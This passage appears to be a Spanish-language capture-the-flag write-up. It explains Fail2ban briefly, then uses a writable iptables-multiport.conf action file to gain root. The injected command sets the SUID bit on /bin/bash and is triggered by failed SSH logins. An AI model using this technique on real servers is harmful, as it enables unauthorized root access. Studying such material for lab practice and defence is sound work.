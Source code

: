 Fail2ban es una aplicación de software de código abierto diseñada para mejorar la seguridad de los servidores Linux al protegerlos contra ataques de fuerza bruta y otros tipos de ataques automatizados. La idea principal detrás de Fail2ban es detectar patrones de comportamiento malicioso en los registros (logs) del sistema y tomar medidas para prevenir o mitigar esos ataques.

Fail2ban utiliza filtros para definir patrones y acciones para especificar qué hacer cuando se detecta un patrón. Los filtros y acciones están definidos en archivos de configuración, lo que permite una personalización adecuada según las necesidades del administrador del sistema.

Integración con iptables o firewalld: Fail2ban a menudo trabaja en conjunto con iptables (o firewalld, dependiendo de la distribución de Linux) para agregar reglas de firewall dinámicamente y bloquear el tráfico de las direcciones IP que se consideran maliciosas.

Para escalar privilegios por vía [fail2ban](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/) modificaremos el archivo `/etc/fail2ban/action.d/iptables-multiport.conf` para inyectar nuestro código malicioso.

```php
fred@biteme:~$ ls -la /etc/fail2ban/action.d/iptables-multiport.conf
-rw-r--r-- 1 fred root 1420 Dec  9 18:06 /etc/fail2ban/action.d/iptables-multiport.conf
nano /etc/fail2ban/action.d/iptables-multiport.conf
```

Ahora inyectaremos nuestro comando para cambiar los permisos de la `/bin/bash` con el siguiente comando `actionban=/bin/bash -c 'chmod u+s /bin/bash'`.

```php
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
actionban=/bin/bash -c 'chmod u+s /bin/bash'

# Option:  actionunban
```

#### Usuario: root

Ahora para que se ejecute el el comando que inyectamos, realizaremos varios intentos fallidos al logarnos por ssh.

![20231209133046.png](20231209133046.png)
